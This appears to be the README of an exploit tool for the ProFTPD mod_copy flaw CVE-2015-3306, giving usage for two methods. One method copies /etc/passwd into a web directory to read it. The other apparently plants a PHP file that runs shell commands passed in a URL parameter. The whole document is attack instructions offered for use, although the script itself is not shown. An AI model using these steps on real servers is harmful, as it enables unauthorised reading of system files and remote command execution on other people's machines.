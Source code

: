 # cpx_proftpd.py (by daldana)

Tool for exploit CVE-2015-3306

METHOD 1:
--------
usage: 
  ```python cpx_proftp.py 1 &lt;IP&gt; &lt;REMOTE_FULLPATH_SRC_FILE&gt; &lt;REMOTE_FULLPATH_DST_FILE&gt;

ex:
  ```python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt

then try:
  ```http://127.0.0.1/pass.txt

METHOD 2:
--------

usage: 
  ```python cpx_proftp.py 2 &lt;IP&gt; &lt;REMOTE_FULLPATH_APACHE2&gt;

ex:
  ```python cpx_proftp.py 2 127.0.0.1 /var/www/html

then try:
  ```http://127.0.0.1/xxx.php?img=ls
